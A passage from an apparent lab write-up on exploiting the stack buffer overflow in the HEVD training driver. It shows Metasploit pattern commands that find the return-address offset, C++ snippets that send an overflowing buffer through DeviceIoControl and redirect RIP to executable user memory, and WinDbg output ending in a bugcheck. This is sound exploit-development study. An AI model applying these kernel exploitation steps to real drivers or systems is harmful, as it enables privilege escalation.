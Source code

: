 We can see that the return address was overwritten with our input "A"s. At this point, we confirmed the vulnerability & can trigger a crash.

## Exploitation

Now that we can crash it with a large input buffer, the next step is figuring out the exact offset at which we overwrite RIP. We can generate a pattern with msf, send it, and then inspect RSP on the ret:

```
msf-pattern_create -l 2500
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8...
```

```cpp
...
LPVOID uBuffer = VirtualAlloc(NULL, 2500, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
const char* pattern = { "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8..."};
RtlCopyMemory(uBuffer, pattern, 2500);
DeviceIoControl(hDriver, 0x222003, (LPVOID)uBuffer, 2500, NULL, 0, NULL, NULL);
...
```

```
HEVD!TriggerBufferOverflowStack+0x10b:
fffff800`6ebf66bf c3              ret
1: kd> dq rsp
ffffba89`e9fe9778  43327243`31724330 35724334`72433372
ffffba89`e9fe9788  72433772`43367243 43307343`39724338
```

```
msf-pattern_offset -q 43327243 -l 2500
[*] Exact match at offset 2076
```

After sending the pattern and letting it run, we can see that we got our access violation again and inspecting RSP allowed us to find the offset: 2076. At this point, we could allocate shellcode and try to jump to it. Note that the offset is slightly off – if you debug it you will see that only the 2nd half of the shellcode address ends up at the correct position – in the following snippet, I account for that (real offset being 2076-4).

```cpp
...
LPVOID uBuffer = VirtualAlloc(NULL, 2500, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
LPVOID shellcode = VirtualAlloc(NULL, 500, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
RtlFillMemory(uBuffer, 2500, '\x41');
RtlFillMemory(shellcode, 500, '\x90');
*(QWORD*)((QWORD)uBuffer + 2072) = (QWORD)shellcode;
...
```

```
0: kd> ba e1 HEVD!TriggerBufferOverflowStack+0x10b
0: kd> g
Breakpoint 0 hit
HEVD!TriggerBufferOverflowStack+0x10b:
fffff802`a74966bf c3              ret
1: kd> dq rsp
fffffa8a`25b72778  00000173`3c510000 41414141`41414141
fffffa8a`25b72788  41414141`41414141 41414141`41414141
1: kd> p
00000173`3c510000 90              nop
1: kd> p
KDTARGET: Refreshing KD connection

*** Fatal System Error: 0x000000fc
```
